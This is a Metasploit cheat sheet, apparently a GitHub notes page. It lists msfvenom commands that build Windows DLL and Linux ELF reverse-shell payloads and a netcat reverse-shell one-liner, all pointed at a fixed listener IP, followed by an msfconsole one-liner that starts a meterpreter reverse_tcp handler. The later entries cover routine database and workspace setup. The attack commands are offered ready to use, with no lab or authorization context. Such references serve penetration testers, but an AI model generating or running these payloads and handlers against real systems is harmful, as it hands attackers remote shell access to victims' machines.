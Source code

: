 Windows DLL with a reverse TCP shell payload
```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.69.123 LPORT=4444 -f dll -o getpwned.dll
```
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.69.123 LPORT=6666 -f dll -o revshell2.dll
```

Linux reverse shell binary
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.69.123 LPORT=4444 -f elf > shell-x64.elf
```

Linux `nc` reverse shell bash oneliner
```
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.69.123 lport=8888 R
```

# MSFconsole

## Usage

Setting up a handler for the meterpreter payload
```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.69.123;set LPORT 443;run;"
```

Creating and initializing the Metasploit database
```bash
sudo msfdb init
```

Enabling the postgresql database service at boot time
```bash
sudo systemctl enable postgresql
```

Starting the Metasploit Framework
```bash
sudo msfconsole
```

Starting the Metasploit Framework without banner
```bash
sudo msfconsole -q
```

Confirming database connectivity once the Metasploit command-line interface is started
```msfconsole
db_status
```

List all previously-created workspaces
```msfconsole
workspace
```
